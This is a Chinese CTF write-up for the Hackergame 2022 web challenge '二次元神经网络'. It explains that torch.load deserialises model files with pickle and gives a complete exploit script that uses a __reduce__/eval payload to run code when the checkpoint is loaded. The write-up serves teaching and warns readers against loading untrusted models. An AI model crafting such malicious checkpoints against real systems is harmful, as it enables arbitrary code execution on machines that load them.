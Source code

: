 # 二次元神经网络

题解作者：[volltin](https://github.com/volltin)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：250

天冷极了，下着雪，又快黑了。这是一年的最后一天——大年夜。在这又冷又黑的晚上，一个没有 GPU、没有 TPU 的小女孩，在街上缓缓地走着。她从家里出来的时候还带着捡垃圾捡来的 E3 处理器，但是有什么用呢？跑不动 Stable Diffusion，也跑不动 NovelAI。她也想用自己的处理器训练一个神经网络，生成一些二次元的图片。

于是她配置好了 PyTorch 1.9.1，定义了一个极其简单的模型，用自己收集的 10 张二次元图片和对应的标签开始了训练。

```
SimpleGenerativeModel(
  (tag_encoder): TagEncoder(
    (embedding): Embedding(63, 8, padding_idx=0)
  )
  (model): Sequential(
    (0): Linear(in_features=16, out_features=8, bias=True)
    (1): ReLU()
    (2): Linear(in_features=8, out_features=8, bias=True)
    (3): ReLU()
    (4): Linear(in_features=8, out_features=64 * 64 * 3, bias=True)
    (5): Tanh()
  )
)
```

她在 CPU 上开始了第一个 epoch 的训练，loss 一直在下降，许多二次元图片重叠在一起，在向她眨眼睛。

她又开始了第二个 epoch，loss 越来越低，图片越来越精美，她的眼睛也越来越累，她的眼睛开始闭上了。

...

第二天清晨，这个小女孩坐在墙角里，两腮通红，嘴上带着微笑。新年的太阳升起来了，照在她小小的尸体上。

人们发现她时才知道，她的模型在 10 张图片上过拟合了，几乎没有误差。

（完）

听完这个故事，你一脸的不相信：「这么简单的模型怎么可能没有误差呢？」，于是你开始复现这个二次元神经网络。

## 题解

tl;dr: 这道题目是 web 题，漏洞点在于 `torch.load` 调用了 `pickle` 模块，加载模型参数的过程是不安全的，通过构造特定的文件，可以达成任意命令执行。

之所以出这道题，是因为最近各种图片生成模型很火，有很多人可能会从网上下载一些模型，然后在自己电脑、实验室的服务器等地方 load and run，其实这是非常危险的，查看 PyTorch 的 [文档](https://pytorch.org/docs/stable/generated/torch.load.html) 也能看到 **Only load data you trust** 的警告。

从网站上得到附件 `2d_model.zip` 后，根据说明可以尝试上传 `checkpoint/model.pt`，这是一个稍微训练了一下的网络参数，结果不是很好，所以大概会得到类似的提示：

> 最大误差：0.05549 > 0.0005，没有达到要求。每张图片的误差（loss 值）：0.01418, 0.01349, 0.05549, 0.00977, 0.01611, 0.01215, 0.02244, 0.03020, 0.02355, 0.01839

接下来根据题目的提示「上传模型后将会由 `infer.py` 运行」，可以重点分析 `infer.py` 的内容，其中第 23 行：

```python
model.load_state_dict(torch.load(pt_file, map_location="cpu"))
```

是漏洞出现的地方，只要我们能够控制 `pt_file` 的值，就可以达成任意命令执行，利用方法和 `pickle.load` 完全相同，大家可以网上搜索。

第 43 行说明了我们应该把答案写入一个文件中：

```python
json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))
```

所以只要将作为答案的真实图片直接写入即可，最后得到 payload 如下：

```python
import io
import json
import base64

import torch
import matplotlib
import matplotlib.image

# 加载正确答案
PIXEL_FILE="../files/dataset/pixels_10.pt"
predictions = torch.load(PIXEL_FILE, map_location="cpu")

# 生成 base64 格式的数据
gen_imgs = []
for i in range(10):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

content = json.dumps({"gen_imgs_b64": gen_imgs})

# 构造要执行的 python 代码
args = "open('/tmp/result.json', 'w').write('" + content.replace('\\', '\\\\').replace("'", "\\'") + "')"

# 通过 __reduce__ 方法执行 python 代码
class Exploit(object):
    def __reduce__(self):
        return (eval, (args,))

torch.save(Exploit(), "model_exp.pt")
```

提交生成的 `model_exp.pt`，即可得到 flag。

在这道题中，由于 eval 返回值不是一个合法的 `state_dict`，所以后续的代码会报错，但是没有关系，web 前端调用这个代码时会忽略异常，不管是否有异常，执行之后去读取 `/tmp/result.json`。

## 统计信息

选手们提交的模型的误差最低为 0.001。

（更多统计敬请期待）

## 附注

@taoky: 

用 `torch.load()` 来 RCE 的题目其实我去年就有这个想法，但是当时因为种种原因没有实现。最近适逢 Diffusion 模型大火，豆豆和我一合计，就搞了这道题。我不太懂机器学习，所以我主要做的是 web 框架的代码实现，以及……数据集里那十张图片和标签也是我搞的。不幸的是，我也既没有 GPU，也没有 TPU，所以标签都是自己凭感觉写的。

选图的时候，从自己看过的番剧里面选了一些名场面（[十张图的内容](src/web/app/static/images/)）。~~不过比赛的时候 [Elsa Granger](https://github.com/zeyugao) 问我为什么这 10 张图没有每张都选不一样的，这样就能并发地安利十个番了~~。

在最后：**快点去看《摇曳露营》《莉可丽丝》[^1]《LoveLive 虹咲学园学园偶像同好会》《Slow Loop》《孤独摇滚》[^2]和《街角魔族》（按图片顺序排序）！**

emm...

![yamanosusume](assets/yama.png)

《向山进发》（十月是第四季放送）也很好看！甚至我某台 VPS 的 motd 也是 aoi：

![aoi](assets/aoi.png)

[^1]: 我不是很推荐《莉可丽丝》的剧情，但是名场面真的有点多，所以我放了两张。
[^2]: 十月新番。